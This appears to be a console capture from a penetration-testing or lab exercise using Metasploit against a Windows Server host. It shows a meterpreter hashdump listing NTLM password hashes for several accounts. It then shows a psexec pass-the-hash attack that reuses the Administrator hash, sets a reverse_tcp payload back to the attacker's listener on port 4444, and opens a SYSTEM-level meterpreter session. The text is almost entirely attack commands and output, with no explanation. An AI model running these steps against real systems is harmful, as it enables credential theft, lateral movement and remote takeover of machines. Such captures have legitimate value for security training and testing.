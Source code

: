 ```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0d757ad173d2fc249ce19364fd64c8ec:::
auditor:1012:aad3b435b51404eeaad3b435b51404ee:b8f8e199032b942917462188805a5d5d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
demo:1013:aad3b435b51404eeaad3b435b51404ee:4699b6979c6e1513ec8f54ba8dd219b2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sysadmin:1011:aad3b435b51404eeaad3b435b51404ee:e8a38f149bf33b7e1678cb0676dd9df5:::

```

```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.0.23.243 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(windows/smb/psexec) > sessions

Active sessions
===============

No active sessions.

```

```
msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:0d757ad173d2fc249ce19364fd64c8ec
SMBPass => aad3b435b51404eeaad3b435b51404ee:0d757ad173d2fc249ce19364fd64c8ec
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] 10.0.23.243:445 - Connecting to the server...
[*] 10.0.23.243:445 - Authenticating to 10.0.23.243:445 as user 'Administrator'...
[*] 10.0.23.243:445 - Selecting PowerShell target
[*] 10.0.23.243:445 - Executing the payload...
[*] Sending stage (201283 bytes) to 10.0.23.243
[+] 10.0.23.243:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 2 opened (10.10.16.3:4444 -> 10.0.23.243:49841) at 2023-02-22 19:38:20 +0530

meterpreter > sysinfo
Computer        : EC2AMAZ-408S766
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 2...

```
